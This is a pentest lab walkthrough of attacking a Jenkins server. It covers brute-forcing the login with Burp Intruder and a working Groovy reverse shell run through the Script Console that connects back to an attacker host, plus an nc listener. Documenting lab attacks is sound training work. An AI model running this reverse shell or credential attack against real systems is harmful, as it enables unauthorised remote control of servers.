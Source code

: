 - Navigate to [http://192.168.31.133:8080](http://192.168.31.133:8080)
  - Jenkins
  - [PWN Jenkins](https://github.com/gquere/pwn_jenkins)
  - [Jenkins-security - HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

- Focus on Login into the Jenkins app
  - try default credentials (`admin`:`password`) - not working
  - brute-force with Metasploit or BurpSuite

Intercept the login request and send it to the Intruder.

- Use `Cluster bomb` attack type
- Set the payloads lists and start the attack

`jenkins`:`jenkins` is a valid login.

![](.gitbook/assets/2024-07-14_18-49-15_627.png)

- Disable proxy

#### Reverse shell

- Login with `jenkins`:`jenkins`
  - search for code execution attacks: e.g. `jenkins script console exploit`
  - [Abusing Jenkins Groovy Script Console to get Shell | by Nishant Sharma | Pentester Academy Blog](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
- From the Manage Jenkins / Script Console, use [Pure Groovy/Java Reverse Shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to get a reverse shell

```bash
# Kali VM
nc -nvlp 8044
```

```bash
# Script Console - run
String host="192.168.31.131";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![Reverse Shell as 'butler' user](.gitbook/assets/2024-07-14_18-55-25_628.png)

```bash
whoami
systeminfo

OS Version: 10.0.19043 N/A Build 19043
```

#### Privesc WinPEAS

